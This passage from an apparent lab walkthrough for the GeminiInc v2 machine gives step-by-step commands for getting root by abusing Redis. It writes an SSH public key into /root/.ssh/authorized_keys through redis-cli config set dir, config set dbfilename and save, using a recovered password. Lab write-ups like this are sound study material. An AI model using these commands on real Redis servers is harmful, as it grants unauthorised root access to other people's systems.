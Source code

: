 ![0.bty888qayjj](/assets/images/posts/geminiinc-v2-walkthrough/0.bty888qayjj.png)

With the password, I can proceed to abuse `redis` to write files as `root`. We could write the RSA public key we control to `/root/.ssh/authorized_keys` and gain `root` access through SSH.

Here's how.

1. Generate a SSH keypair with `ssh-keygen`.
2. Copy `id_rsa.pub` to `~/.ssh/public.txt`. Pad the top and bottom with two newlines.
3. Set `~/.ssh/public.txt` as a new `redis` value.
4. Configure `dir` as `/root/.ssh/`.
5. Configure `dbfilename` as `authorized_keys`.
6. Save the configuration.
7. Log in with the RSA private key and enjoy your `root` shell.

_Step 1: Generate a SSH keypair with `ssh-keygen`._

```
$ ssh-keygen -t
```

_Step 2: Copy `id_rsa.pub` to `~/.ssh/public.txt`. Pad the top and bottom with two newlines._

```
$ echo -e "\n\n" > .ssh/public.txt
$ cat .ssh/id_rsa.pub >> .ssh/public.txt
$ echo -e "\n\n" >> .ssh/public.txt
```

_Step 3: Set `~/.ssh/public.txt` as a new `redis` value._

```
cat .ssh/public.txt | redis-cli -h 127.0.0.1 -a 8a7b86a2cd89d96dfcc125ebcc0535e6 -x set pub
```

_Step 4: Configure `dir` as `/root/.ssh/`._

```
$ redis-cli -h 127.0.0.1 -a 8a7b86a2cd89d96dfcc125ebcc0535e6 config set dir "/root/.ssh/"
```

_Step 5: Configure `dbfilename` as `authorized_keys`._

```
redis-cli -h 127.0.0.1 -a 8a7b86a2cd89d96dfcc125ebcc0535e6 config set dbfilename authorized_keys
```

_Step 6: Save the configuration._

```
redis-cli -h 127.0.0.1 -a 8a7b86a2cd89d96dfcc125ebcc0535e6 save
```

_Step 7: Log in with the RSA private key and enjoy your `root` shell._

![0.bwzw8a9z1nd](/assets/images/posts/geminiinc-v2-walkthrough/0.bwzw8a9z1nd.png)
